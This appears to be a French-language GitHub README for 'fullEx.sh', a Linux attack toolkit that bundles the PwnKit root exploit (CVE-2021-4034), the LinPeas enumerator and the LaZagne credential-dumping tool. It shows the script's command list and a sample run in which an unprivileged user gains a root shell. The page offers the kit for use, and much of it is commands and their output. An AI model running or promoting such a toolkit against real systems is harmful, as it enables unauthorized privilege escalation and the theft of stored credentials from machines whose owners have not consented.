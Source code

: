 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Commandes

```
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -help

                                                    
__________      ____________________       
___  ____/___  ____  /__  /__  ____/___  __
__  /_   _  / / /_  /__  /__  __/  __  |/_/
_  __/   / /_/ /_  / _  / _  /___  __>  <  
/_/      \__,_/ /_/  /_/  /_____/  /_/|_|  
                                                                                                   
by M0rPH3U53

      
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034    
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
heisenberg@kb-server:~/fullEx$ bash fullEx.sh -perm
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -PwnKit64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kb-server:/home/heisenberg/fullEx#    
```
